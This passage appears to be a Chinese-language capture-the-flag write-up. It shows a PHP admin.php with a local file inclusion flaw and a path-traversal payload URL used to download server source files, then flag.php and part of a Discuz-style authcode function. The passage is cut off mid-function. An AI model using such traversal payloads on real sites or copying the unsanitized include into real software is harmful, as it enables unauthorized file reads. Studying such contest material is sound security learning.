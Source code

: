 ### admin.php(这个后来下载下来的，直接粘帖过来。。)

```
<?php 
require_once('inc/common.php');
if ($_SESSION['power'] == 1){
    if (isset($_GET['m'])) {
        $model = "model/" . $_GET['m'] . ".php";
        if (!is_file($model)){
            echo "Model not exist!";
            exit; 
        } else {
            include_once($model);
        }
    }
} else {
    exit("Error, your power is too low.");
}
?>

```

这样的话，我们只需要把download.php给包含进去，就能改变目录限制啦～最终payload

```
http://url/admin.php?m=../file/download&f=admin.php

```

可以看到直接下载下来了。。

后来给了hint3,下载flag.php（实际上看到群里有人讨论了一下。。猜到了这个文件，后来还是hint了），于是下载下来看

```
<?php
require_once('inc/common.php');
require_once('authcode.php');
echo "where is the flag?";
$flag = authcode('4da1JE+SVphprnaoZJlJTsXKmi+hkEFTlkrbShMA6Uq5npWavTX8vFAh3yGYDf6OcbZePTLJIT+rB2sHzmPO2tuVQ','DECODE',$authkey);
?>

```

### authcode.php

```
<?php
function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {  
   // 动态密匙长度，相同的明文会生成不同密文就是依靠动态密匙  
   $ckey_length = 3;  

   // 密匙  
   $key = md5($key ? $key : $GLOBALS['discuz_auth_key']);  

   // 密匙a会参与加解密  
   $keya = md5(substr($key, 0, 16));  
   // 密匙b会用来做数据完整性验证  
   $keyb = md5(substr($key, 16, 16));  
   // 密匙c用于变化生成的密文  
   $keyc = $ckey_length?($operation == 'DECODE' ? substr($string, 0, $ckey_length): 
substr(hash('sha256', microtime()), -$ckey_length)) : '';  
   // 参与运算的密匙  
   $cryptkey = $keya.md5($keya.$keyc);  
   $key_length = strlen($cryptkey);  
   // 明文，前10位用来保存时间戳，解密时验证数据有效性，10到26位用来保存$keyb(密匙b)，解密时会通过这个密匙验证数据完整性  
   // 如果是解码的话，会从第$ckey_length位开始，因为密文前$ckey_length位保存 动态密匙，以保证解密正确  
```